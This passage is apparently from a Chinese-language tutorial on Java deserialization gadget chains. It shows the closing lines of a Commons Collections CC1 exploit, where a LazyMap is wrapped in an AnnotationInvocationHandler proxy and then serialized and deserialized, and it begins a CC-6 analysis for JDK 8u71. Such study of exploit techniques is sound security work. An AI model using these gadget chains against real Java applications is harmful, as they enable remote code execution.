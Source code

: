 ```plain
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, Lazymap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);

        Object o = annotationInvocationhdlConstructor.newInstance(Override.class, mapProxy);

        serialize(o);
        unserialize("ser.bin");
    }
```

## CC-6分析

### 分析版本

Commons Collections3.2.1

jdk8u71

### 分析过程

#### 版本修改

在JDK-8u71版本之后，cc-1的关键漏洞点AnnotationInvocationHandler.java的readObject方法做出了一下修改

[![](assets/1700127979-af79b012b5bd8afd931010c4f1440744.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155056-dfe814b4-8454-1.png)
